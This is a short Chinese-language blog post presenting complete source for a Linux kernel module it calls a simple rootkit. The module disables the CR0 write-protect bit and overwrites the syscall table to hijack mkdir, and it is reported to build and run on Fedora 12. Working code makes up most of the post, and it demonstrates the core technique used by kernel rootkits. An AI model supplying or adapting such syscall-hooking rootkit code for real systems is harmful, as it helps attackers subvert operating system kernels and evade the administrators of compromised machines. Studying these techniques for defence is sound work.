

一个简单的linux rootkit
Posted on 周六 24 四月 2010 in 编程语言
一个简单的linux rootkit
@(编程语言)[信息安全, Linux, rootkit]
下面提供一个相对完整的rootkit，在Fedora 12上编译运行成功。
#include <linux/module.h>
#include <linux/kernel.h>
#include <asm/unistd.h>
MODULE_LICENSE("GPL");
// addr of sys_call_talbe = 0xc077e3a8，这个值是在/boot目录下，System.map或是以System.map打头的文件中找到的。
void ** sys_call_table = (void **)0xc077e3a8;
int (*orig_mkdir)(const char *path); //定义一个函数指正，用于保存挟制以前的初始值
int hack_mkdir(const char * path) //定义一个替换函数，它将用来替换某个系统调用
{
printk("<0> this is in hack_mkdir\n");
return 0;
}
下面两个函数比较重要，因为在较新的内核中，sys_call_table的内存是只读的，详见entry_32.S:
.section .rodata,"a"
#include "syscall_table_32.S"
但我们可以通过该cr0寄存器的第16位来取消写保护，cr0寄存器如下：

第16位WP位，它控制是否允许处理器向标志为只读属性的内存页写入数据，如果WP=0, 禁用写保护功能。
unsigned int clear_cr0(void) // 将WP清0，并返回清0前的值
{
unsigned int cr0 = 0;
unsigned int ret;
asm volatile("movl %%cr0, %%eax"
:"=a"(cr0)
);
ret = cr0;
cr0 &= 0xfffeffff;
asm volatile("movl %%eax, %%cr0"
:
:"a"(cr0)
);
return ret;
}
void setback_cr0(unsigned int val) // 将cr0设为val
{
asm volatile("movl %%eax, %%cr0"
:
:"a"(val)
);
}
static int __init begin(void)
{
unsigned int cr0;
orig_mkdir = sys_call_table[__NR_mkdir]; //保存mkdir原来的的地址
printk("<0> sys_call_table[__NR_mkdir] = %x\n", (unsigned int)sys_call_table[__NR_mkdir]);
cr0 = clear_cr0();
sys_call_table[__NR_mkdir] = hack_mkdir; //挟持
setback_cr0(cr0);
printk("<0> sys_call_table[__NR_mkdir] = %x\n", (unsigned int)sys_call_table[__NR_mkdir]);
return 0;
}
static void __exit end(void)
{
int cr0;
cr0 = clear_cr0();
sys_call_table[__NR_mkdir] = orig_mkdir; //恢复mkdir系统调用
setback_cr0(cr0);
}
module_init(begin);
module_exit(end);
运行效果：
加载模块后，mkdir命令失效。